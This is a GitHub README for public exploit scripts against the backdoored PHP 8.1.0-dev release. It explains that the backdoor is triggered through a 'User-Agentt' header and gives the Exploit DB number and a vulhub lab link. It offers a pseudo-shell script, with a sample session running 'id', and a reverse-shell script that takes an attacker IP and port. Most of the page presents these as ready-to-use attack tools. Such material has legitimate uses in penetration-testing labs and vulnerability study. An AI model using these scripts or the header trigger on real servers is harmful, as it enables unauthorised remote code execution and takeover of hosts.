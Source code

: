 # PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![docs/logo_php81.png](docs/logo_php81.png "docs/logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

_Read full article: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/_


* * * 

## POC Script

This short exploit script [backdoor_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) uses the backdoor to provide a pseudo system shell on the host.

It has the number [49933](https://www.exploit-db.com/exploits/49933) on [Exploit DB](https://www.exploit-db.com/exploits/49933).   

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:** [https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)            
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 backdoor_php_8.1.0-dev.py
  
Enter the full host url:
http://a.b.c.d

Interactive shell is opened on http://http://a.b.c.d 
Can't acces tty; job crontol turned off.
$ id
uid=1000(user) gid=1000(user) groups=1000(user)

$
```

* * * 

## Reverse Shell    

This short exploit script [revshell_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) gives a reverse shell on target.


Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 revshell_php_8.1.0-dev.py <target URL> <attacker IP> <attacker PORT>
```

![docs/revshell-script.png](docs/revshell-script.png "docs/revshell-script.png")


